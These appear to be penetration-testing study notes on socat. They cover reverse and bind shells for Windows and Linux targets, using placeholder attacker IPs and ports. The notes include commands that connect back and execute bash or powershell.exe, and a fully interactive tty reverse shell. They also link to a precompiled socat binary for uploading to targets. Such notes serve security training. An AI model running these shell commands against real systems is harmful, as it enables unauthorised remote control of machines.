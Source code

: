 # socat

Tools

Socat:

Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

&#x20;      The syntax is more difficult Netcat is installed on virtually every Linux distribution by default.&#x20;

&#x20;      Socat is very rarely installed by default.

syntax for a basic reverse shell listener in socat:

`socat TCP-L:<port> -`

On Windows we would use this command to connect back:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

Bind Shells

On a Linux target we would use the following command:

```
socat TCP-L:<PORT> EXEC:"bash -li"
```

On a Windows target we would use this command for our listener:

```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

attacking machine to connect to the waiting listener.

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

**-------------------------------A fully stable Linux tty reverse shell------------------------------------------**

listener syntax:

``socat TCP-L:<port> FILE:`tty`,raw,echo=0``

this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
